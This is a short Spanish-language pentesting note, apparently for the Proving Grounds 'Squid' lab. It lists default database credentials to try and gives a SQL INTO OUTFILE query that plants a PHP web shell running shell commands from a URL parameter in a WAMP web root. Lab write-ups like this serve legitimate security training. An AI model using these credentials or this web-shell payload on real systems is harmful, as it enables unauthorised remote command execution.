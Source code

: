
## DESCRIPTION

Es necesario estar autenticados, probar:

root:root
root:
admin:admin
admin:


#### Mas información
* https://infosecwriteups.com/proving-grounds-practice-squid-walkthrough-f761d2da973f


## EXPLOITATION

### OPTION 1: SUBIR UNA WEB SHELL PHP

Utilizamos la ejecución de consultas en SQL para subir una web shell:
![[Pasted image 20230701162249.png]]
Accedemos a SQL y ejecutamos:

```
select "<?php echo shell_exec($_GET['c']); ?>" into OUTFILE 'C:/wamp/www/shell.php' 
```

![[Pasted image 20230701162234.png]]


**!!NOTA IMPORTANTE!!** 

En el phpinfo podemos ver la ruta al direcotrio raiz web

![[Pasted image 20230701162607.png]]

## MACHINES

* Hack The Box: 
* PG:SQUID

**!!NOTA IMPORTANTE!!** 
